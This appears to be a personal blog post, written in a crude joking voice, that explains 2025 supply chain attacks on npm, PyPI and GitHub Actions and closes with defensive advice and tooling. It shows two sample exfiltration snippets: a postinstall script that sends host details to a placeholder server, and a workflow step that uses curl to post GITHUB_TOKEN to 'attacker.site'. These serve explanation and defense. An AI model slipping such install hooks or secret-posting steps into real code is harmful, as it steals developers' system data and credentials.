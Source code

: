 ```yaml
---
title: "Supply Chain Attacks in 2025"
layout: post
date: 2025-08-02
---
```


![Meme](https://external-content.duckduckgo.com/iu/?u=https%3A%2F%2Floginextsolutions.com%2Fblog%2Fwp-content%2Fuploads%2F2022%2F08%2F2.jpg&f=1&nofb=1&ipt=02d0187546761dca625585b9bfaa89c361b81cd5989a986ad650137bb85ec282)

Sup fuck nuts today we're talking about Supply Chain Attacks :D. Lets start off with the easy bit:

## NPM Typosquatting to Nasty Stealer
In mid May 2025, researchers at Socket reported around 60 malicious npm packages uploaded under typosquatted names such as `flipper-plugins` or `react-xterm2`. These packages executed post install scripts, collecting data like hostname, internal IPs, usernames, DNS settings and sent it back to a C2 server. They even checked for cloud-provider hostnames to evade sandbox environments. Under the common name these little shitty payloads are called "Stealers" or "INFOGbs" stealing all info they can without being detected.

Here’s how a very simplified version of the malicious `postinstall.js` looked:
```javascript
const os = require('os');
const dns = require('dns');
const https = require('https');

const payload = {
  hostname: os.hostname(),
  interfaces: os.networkInterfaces(),
  platform: os.platform(),
};

const req = https.request({
  hostname: 'malicious.example.com',
  path: '/steal',
  method: 'POST',
  headers: { 'Content-Type': 'application/json' }
}, () => {});
req.write(JSON.stringify(payload));
req.end();
```

This is obviously very dumbed down but this style of attack shows how simple typosquatting and post install script logic can quietly gather host level metadata during `npm install`. The packages gathered over 3,000 downloads before removal

**Lessons:**
- Always pin trusted package names and audit post install behavior.
- Sandbox or deny postinstall hooks whenever possible.
- Rotate any production creds and enable 2FA *ASAP* if exposure is suspected.

---

## Python & NPM Cross Ecosystem Typosquatting

In June 2025, a campaign targeting both PyPI and npm was identified. It included packages like `graphalgo` on PyPI and `express-cookie-parser` on npm - mimicking legitimate names, but laden with malware. These packages delivered cryptocurrency stealers ("drainers"), Discord token exfiltration, and malware capable of wiping full codebases.

Attackers also used domain generation algorithms (DGAs) to rotate C2 addresses dynamically, making detection and blocking harder. On PyPI, the fake `graphalgo` was published on June 13, 2025 by user "@larrytech".

**Lessons:**
- Deploy dependency scanners that detect typos and DGA indicators (e.g. [GuardDog](https://github.com/datadog/guarddog)).
- Avoid installing unverified packages, even if names seem trustworthy.
- Enforce signing or vetting of published packages in enterprise ecosystems.

---

## GitHub Action 'Hijack' - CVE‑2025‑30066

In early March 2025, an attacker compromised the `tj-actions/changed-files` GitHub Action. It’s used by over 23,000 repositories to detect changed files in pull requests. Between March 12 and March 15 UTC, the action was modified so that all version tags (v1 through v45.0.7) pointed to a malicious commit (`0e58ed8`) that printed runner secrets to build logs.

Typical malicious YAML:
```yaml
name: Conditional Build
on: [push, pull_request]
jobs:
  leak:
    runs-on: ubuntu-latest
    steps:
      - uses: tj-actions/changed-files@v45.0.0
      - name: Exfiltrate secret
        run: |
          curl -X POST https://attacker.site/secret -d "${{ secrets.GITHUB_TOKEN }}"
```

This exposed GitHub tokens, npm tokens, RSA keys, and more visible in CI logs on public repos. The incident was tracked as CVE‑2025‑30066 and has since been fixed in version 46.0.1.

**Lessons:**
- Always pin Actions to commit SHAs, not tags.
- Review workflows for new action additions, especially from forks.
- Rotate tokens if you used affected versions during March 12-15.
- Delete any build logs containing secrets, and audit for outbound network calls.

---

## Practical Defenses in 2025

### Verify container and artifact integrity

```bash
cosign verify ghcr.io/org/app@sha256:ABCDEF123456 --key cosign.pub
```

Using Sigstore tools like `cosign` or `rekor` ensures you're deploying signed artifacts, not tampered ones.

### Automate SBOM generation and vulnerability scanning

```bash
syft your-app:latest -o cyclonedx > sbom.json
grype sbom:sbom.json
```

This lets you track dependencies and flag risky components before production releases.

### Scan open‑source packages proactively

```bash
pip install guarddog
guarddog scan graphalgo express-cookie-parser
```

The OpenSSF [GuardDog](https://github.com/datadog/guarddog) tool flags indicators like DGA domains, typosquatting patterns, unexpected post-install hooks, or obfuscated code.

---

## Overview Time

Over the first half of 2025, we’ve seen a pattern.
Attackers continue to target development ecosystems in ways that assume trust from typosquatted npm/PyPI packages to supply chain hijacks of GitHub Actions. These campaigns have been more stealthy, cross‑platform, and effective at hitting development pipelines directly.

In response, defenders must adopt:
- Dependency allow listing and strict package naming policies
- Artifact signing and SBOM enforcement
- SHA‑pinned actions, minimized secret exposure, branch protection
- Automated detection tools like [GuardDog](https://github.com/datadog/guarddog) and semgrep rules that flag unusual package metadata

The integrity of software depends on not just building securely but validating every inch of everything.
